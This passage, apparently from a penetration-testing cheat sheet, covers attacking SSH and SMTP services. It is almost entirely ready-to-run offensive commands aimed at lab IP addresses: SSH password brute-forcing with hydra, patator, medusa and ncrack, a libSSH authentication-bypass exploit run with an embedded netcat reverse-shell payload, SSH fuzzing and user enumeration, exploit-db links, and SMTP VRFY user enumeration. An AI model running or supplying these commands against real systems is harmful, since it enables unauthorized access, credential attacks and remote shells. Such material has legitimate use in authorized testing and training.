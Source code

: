 ```bash
BruteForce:

patator ssh_login host=10.11.1.111 port=22 user=root 0=/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt password=FILE0 -x ignore:mesg='Authentication failed.'
hydra -l user -P /usr/share/wordlists/password/rockyou.txt -e s ssh://10.10.1.111
medusa -h 10.10.1.111 -u user -P /usr/share/wordlists/password/rockyou.txt -e s -M ssh
ncrack --user user -P /usr/share/wordlists/password/rockyou.txt ssh://10.10.1.111

LibSSH Before 0.7.6 and 0.8.4 - LibSSH 0.7.6 / 0.8.4 - Unauthorized Access
Id
python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 id
Reverse
python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.1.111 80 >/tmp/f"

SSH FUZZ
https://dl.packetstormsecurity.net/fuzzer/sshfuzz.txt

cpan Net::SSH2
./sshfuzz.pl -H 10.10.1.111 -P 22 -u user -p user

use auxiliary/fuzzers/ssh/ssh_version_2

SSH-AUDIT
https://github.com/arthepsy/ssh-audit

• https://www.exploit-db.com/exploits/18557 ~ Sysax 5.53 – SSH ‘Username’ Remote Buffer Overflow
• https://www.exploit-db.com/exploits/45001 ~ OpenSSH < 6.6 SFTP – Command Execution
• https://www.exploit-db.com/exploits/45233 ~ OpenSSH 2.3 < 7.7 – Username Enumeration
• https://www.exploit-db.com/exploits/46516 ~ OpenSSH SCP Client – Write Arbitrary Files

http://www.vegardno.net/2017/03/fuzzing-openssh-daemon-using-afl.html


SSH Enum users < 7.7:
https://github.com/six2dez/ssh_enum_script
https://www.exploit-db.com/exploits/45233
python ssh_user_enum.py --port 2223 --userList /root/Downloads/users.txt IP 2>/dev/null | grep "is a"

```

### Port 25 - SMTP

https://book.hacktricks.xyz/pentesting/pentesting-smtp#basic-information

REF:Postfish

```bash
nc -nvvC 10.11.1.111 25
HELO foo<cr><lf>

telnet 10.11.1.111 25
VRFY root

nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.11.1.111

# Enumerate SMTP Users

sudo smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/Names/names.txt -t 10.1.1.65

Send email unauth:

```